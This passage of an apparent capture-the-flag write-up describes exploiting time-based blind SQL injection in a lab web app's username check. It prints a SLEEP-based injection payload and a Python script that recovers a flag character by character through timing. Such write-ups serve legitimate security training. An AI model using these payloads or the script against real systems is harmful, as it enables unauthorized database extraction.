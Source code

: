 - Nothing gets displayed so simple union isn't going to work

- I tried the same SQL time-based blind query from flag 2:

```bash
'AND (SELECT \* FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe

```
And it worked!

- So all we need to do is modify the script a bit:

![image16](../resources/6c36d817008b493c9f4253e239678d45.png)

**<u>Script:</u>**

```python
import requests
import sys
import time
import string

def send_payload(ip, payload):
    start = time.time()
    try:
        url = f"http://{ip}/register/user-check?username=admin{payload}"
        r = requests.get(url)
        end = time.time()
        if end - start >= 1:
            return True
        else:
            return False
    except Exception as e:
        print("Error:", e)
        return False

def brute_flag(ip):
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()
    flag = ""
    characters = string.ascii_uppercase + string.digits + "{}:"
    for i in range(1, 44):  # assuming flag length = 43
        for j in characters:
            payload = f"' AND (SELECT sleep(1) FROM flag WHERE SUBSTR(flag,{i},1) = '{j}') AND '1'='1"
            if send_payload(ip, payload):
                flag += j
                sys.stdout.write(j)
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return flag

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)

    ip = sys.argv[1]
    flag = brute_flag(ip)
    print("Flag:", flag)

```
